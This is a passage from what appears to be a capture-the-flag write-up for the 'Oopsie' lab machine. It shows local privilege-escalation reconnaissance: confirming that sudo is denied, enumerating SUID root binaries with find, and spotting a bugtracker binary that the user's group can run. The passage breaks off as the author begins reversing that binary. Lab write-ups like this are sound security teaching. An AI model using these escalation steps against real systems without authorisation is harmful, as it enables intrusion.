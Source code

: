 Still looks like sudo is blocked:

```
robert@oopsie:~$ sudo su
[sudo] password for robert: 
robert is not in the sudoers file.  This incident will be reported.
```

So let's look for setui binaries which might allow us to slip into root:

```
$ find / -user root -perm -4000 -exec ls -ldb {} \; >/tmp/filename
```

Skipping over the system stuff, snap, stuff, and normal binaries we see that /usr/bin/bugtracker is present, runs as root, and can be run by users in the "bugtracker" group:

```
$ id
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Looks like that's us.

##### Exploiting The Bugtracker

First we run the binary:

```
   robert@oopsie:~$ /usr/bin/bugtracker
   
   - -----------------
   :  EV Bug Tracker :
   - -----------------
   
   Provide Bug ID: 1
   
   Binary package hint: ev-engine-lib
   
   Version: 3.3.3-1
   
   Reproduce:
   When loading library in firmware it seems to be crashed
   
   What you expected to happen:
   Synchronized browsing to be enabled since it is enabled for that site.
   
   What happened instead:
   Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
```

We see that it's outputting some text when we give it a number.  Let's see if we can reverse engineer it a bit to aid our exploitation.

We start by running `strings` on it
